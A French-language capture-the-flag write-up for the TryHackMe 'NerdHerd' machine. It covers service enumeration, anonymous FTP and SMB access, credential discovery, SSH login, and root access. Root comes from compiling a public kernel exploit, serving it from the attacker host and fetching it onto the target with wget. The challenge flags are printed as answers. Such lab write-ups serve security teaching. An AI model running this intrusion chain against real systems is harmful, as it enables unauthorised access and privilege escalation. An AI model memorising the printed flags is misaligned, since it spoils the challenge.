




# NerdHerd #

## Task 1 PWN ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c 'echo "10.10.15.104 nerdherd.thm" >> /etc/hosts'
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A nerdherd.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 09:36 CEST
Nmap scan report for nerdherd.thm (10.10.15.104)
Host is up (0.065s latency).
Other addresses for nerdherd.thm (not scanned): 10.10.15.104
Not shown: 65530 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/11%OT=21%CT=1%CU=30571%PV=Y%DS=2%DC=T%G=Y%TM=613C5CC
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(SP=1
OS:00%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m59s, deviation: 1h43m54s, median: 0s
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2021-09-11T10:37:40+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-11T07:37:40
|_  start_date: N/A

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   33.13 ms 10.9.0.1
2   54.46 ms nerdherd.thm (10.10.15.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.73 seconds


```

Ici on voit plusieurs services : 
Le service FTP sur le port 21.   
Le service SSH sur le port 22.    
Le service Partage Samba sur le port 139 er 445.   
Le service HTTP sur le port 1337.    



Quand on ouvre la page principale il y a un message qui pop, on a un non qui est  0xpr0N3rd.   
On a aussi un lien qui pointe sur la page youtube de la vidéo Surfin Bird - Bird is the Word.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://nerdherd.thm:1337 -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/admin                (Status: 301) [Size: 319] [--> http://nerdherd.thm:1337/admin/]
/index.html           (Status: 200) [Size: 11755]                                    
/server-status        (Status: 403) [Size: 279]           
```

Avec gobuster nous trouvons un répertoire /admin.   



Dans le code source de la page on trouve 2 hash en base64.    

```bash
echo "Y2liYXJ0b3dza2k=" | base64 -d
cibartowski

tim@kali:~/Bureau/tryhackme/write-up$ echo "aGVoZWdvdTwdasddHlvdQ==" | base64 -d
hehegou<j�][�base64: entrée incorrecte
```

On décode les hash.  
Sur le premier hash on trouve un nom qui est cibartowski.    
Sur le second le hash est mal décodé.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp nerdherd.thm
Connected to nerdherd.thm.
220 (vsFTPd 3.0.3)
Name (nerdherd.thm:tim): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 ..
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 ..
drwxr-xr-x    2 ftp      ftp          4096 Sep 14  2020 .jokesonyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11  2020 youfoundme.png
226 Directory send OK.
ftp> get youfoundme.png
local: youfoundme.png remote: youfoundme.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for youfoundme.png (89894 bytes).
226 Transfer complete.
89894 bytes received in 0.58 secs (151.6059 kB/s)
ftp> cd .jokesonyou
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Sep 14  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 ..
-rw-r--r--    1 ftp      ftp            28 Sep 14  2020 hellon3rd.txt
226 Directory send OK.
ftp> get hellon3rd.txt
local: hellon3rd.txt remote: hellon3rd.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for hellon3rd.txt (28 bytes).
226 Transfer complete.
28 bytes received in 0.07 secs (0.3779 kB/s)

tim@kali:~/Bureau/tryhackme/write-up$ cat hellon3rd.txt 
all you need is in the leet

tim@kali:~/Bureau/tryhackme/write-up$ exiftool youfoundme.png 
ExifTool Version Number         : 12.30
File Name                       : youfoundme.png
Directory                       : .
File Size                       : 88 KiB
File Modification Date/Time     : 2021:09:11 17:13:58+02:00
File Access Date/Time           : 2021:09:11 17:13:57+02:00
File Inode Change Date/Time     : 2021:09:11 17:13:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 894
Image Height                    : 894
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Background Color                : 255 255 255
Pixels Per Unit X               : 3543
Pixels Per Unit Y               : 3543
Pixel Units                     : meters
Warning                         : [minor] Text/EXIF chunk(s) found after PNG IDAT (may be ignored by some readers)
Datecreate                      : 2010-10-26T08:00:31-07:00
Datemodify                      : 2010-10-26T08:00:31-07:00
Software                        : www.inkscape.org
EXIF Orientation                : 1
Exif Byte Order                 : Big-endian (Motorola, MM)
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
Flashpix Version                : 0100
Owner Name                      : fijbxslz
Image Size                      : 894x894
Megapixels                      : 0.799
```

On se connecte sur le serveur FTP en mode anonymous.   
On récupère 2 fichiers.   
Dans le fichier hellon3rd.txt il y pas grand chose.    
Dans les méta données du fichier youfoundme.png on trouve un nom qui est chiffré qui est : fijbxslz.   



On décode le nom ou le mode de passe.    
Et on trouve : easypass.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L  //nerdherd.thm
Enter WORKGROUP\tim's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	nerdherd_classified Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (nerdherd server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

On trouve un partage non commun qui est nerdherd_classified. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\nerdherd.thm\\nerdherd_classified
Enter WORKGROUP\tim's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
```

La connexion ne fonctionne pas il faut surement un nom d'utilisateur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ enum4linux nerdherd.thm
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Sep 11 17:55:46 2021
...
============================= 
|    Users on nerdherd.thm    |
 ============================= 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: chuck	Name: ChuckBartowski	Desc: 

user:[chuck] rid:[0x3e8]
...
```

On trouve un nom d'utilisateur qui est : chuck.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -U chuck \\\\nerdherd.thm\\nerdherd_classified
Enter WORKGROUP\chuck's password: 
smb: \> ls
  .                                   D        0  Fri Sep 11 03:29:53 2020
  ..                                  D        0  Thu Nov  5 21:44:40 2020
  secr3t.txt                          N      125  Fri Sep 11 03:29:53 2020

		8124856 blocks of size 1024. 3414276 blocks available
smb: \> get secr3t.txt
getting file \secr3t.txt of size 125 as secr3t.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)

tim@kali:~/Bureau/tryhackme/write-up$ cat secr3t.txt 
Ssssh! don't tell this anyone because you deserved it this far:

	check out "/this1sn0tadirect0ry"

Sincerely,
	0xpr0N3rd
<3
```

Avec le nom d'utilisateur chuck et le mot de pase easypass on se connecte sur nerdherd_classified et on récupère le fichier secr3t.txt.   
Dans le fichier on trouve un chemin  pour le site web qui est : /this1sn0tadirect0ry    



```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://nerdherd.thm:1337/this1sn0tadirect0ry/creds.txt
alright, enough with the games.

here, take my ssh creds:
	
	chuck : th1s41ntmypa5s
```

Sur le site on trouve un fichier creds.txt.
Avec des identifiants dans le fichier : creds.txt.    
Nom : chuck   
Mot de passe : th1s41ntmypa5s   

**User Flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh chuck@nerdherd.thm
The authenticity of host 'nerdherd.thm (10.10.216.242)' can't be established.
ECDSA key fingerprint is SHA256:Zf9lZPGnZpw5EjeSwBXbXbeyTILyhw998cnd87rFDTU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nerdherd.thm,10.10.216.242' (ECDSA) to the list of known hosts.
chuck@nerdherd.thm's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

747 packages can be updated.
522 updates are security updates.

Last login: Wed Oct 14 17:03:42 2020 from 22.0.97.11
chuck@nerdherd:~$ cat user.txt 
THM{7fc91d70e22e9b70f98aaf19f9a1c3ca710661be}
```

On se connect sur le compte chuck et dans le fichier user.txt on trouve le premier flag.  
La réponse est : THM{7fc91d70e22e9b70f98aaf19f9a1c3ca710661be}   

**Root Flag**

```bash
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

tim@kali:~/Bureau/tryhackme/write-up$ searchsploit linux kernel 4.4.0 escalation
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                                                                                                                   | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5)                                                                       | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                                                                                                                                           | linux/local/50135.c
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_RCVBUFFORCE' Local Privilege Escalation                                                                                                                  | linux/local/41995.c
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation                                                                                                            | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                                                                                                                                         | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bounds Privilege Escalation                                                                                                     | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Condition Privilege Escalation                                                                                                 | windows_x86-64/local/47170.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                                                                                                                  | linux/local/41886.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                                                                                                                                | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation                                                                                                                           | linux/local/45553.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                                                                               | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                                                                                                                      | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation                                                                                                           | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)                                                                                                       | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP)                                                                                   | linux/local/47169.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

On recherche un exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/45010.c ./
tim@kali:~/Bureau/tryhackme/write-up$ gcc 45010.c -o exploit 
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
------------
chuck@nerdherd:~$ wget http://10.9.228.66:8000/exploit -nv
2021-09-11 19:31:25 URL:http://10.9.228.66:8000/exploit [21632/21632] -> "exploit" [1]
chuck@nerdherd:~$ chmod +x exploit 
chuck@nerdherd:~$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880019e68a00
[*] Leaking sock struct from ffff880018acf800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880019f94180
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880019f94180
[*] credentials patched, launching shell...
# cat /root/root.txt
cmon, wouldnt it be too easy if i place the root flag here?


# 

```

On récupère l'exploit.   
On transfère l'exploit dans la machine cible on l'exécute et on obtient un shell avec les droits root.    
On lit le fichier root.txt dans la répertoire root mais notre flag n'est pas ici.   

```bash
# find -name *txt -exec grep -H THM {} \;     
find: ‘./run/user/108/gvfs’: Permission denied
./opt/.root.txt:THM{5c5b7f0a81ac1c00732803adcee4a473cf1be693}
./home/chuck/user.txt:THM{7fc91d70e22e9b70f98aaf19f9a1c3ca710661be}
grep: ./usr/share/doc/syslinux-common/txt: Is a directory
./usr/share/perl/5.22.1/Unicode/Collate/allkeys.txt:1D0B4 ; [*1040.0020.0002] # BYZANTINE MUSICAL SYMBOL GORTHMIKON N APLOUN
./usr/share/perl/5.22.1/Unicode/Collate/allkeys.txt:1D0B5 ; [*1041.0020.0002] # BYZANTINE MUSICAL SYMBOL GORTHMIKON N DIPLOUN

```

On recherche des fichiers txt avec le pattern THM.   
On trouve un nouveau flage dans /opt/.root.txt.   

La réponse est : THM{5c5b7f0a81ac1c00732803adcee4a473cf1be693}   

**Bonus Flag**

```bash
# find /root -type f -exec grep -a -H THM {} \;
/root/.bash_history:THM{a975c295ddeab5b1a5323df92f61c4cc9fc88207}
```

On recherche des fichiers avec le pattern THM et on trouve un autre flag.   

La réponse est : THM{a975c295ddeab5b1a5323df92f61c4cc9fc88207}   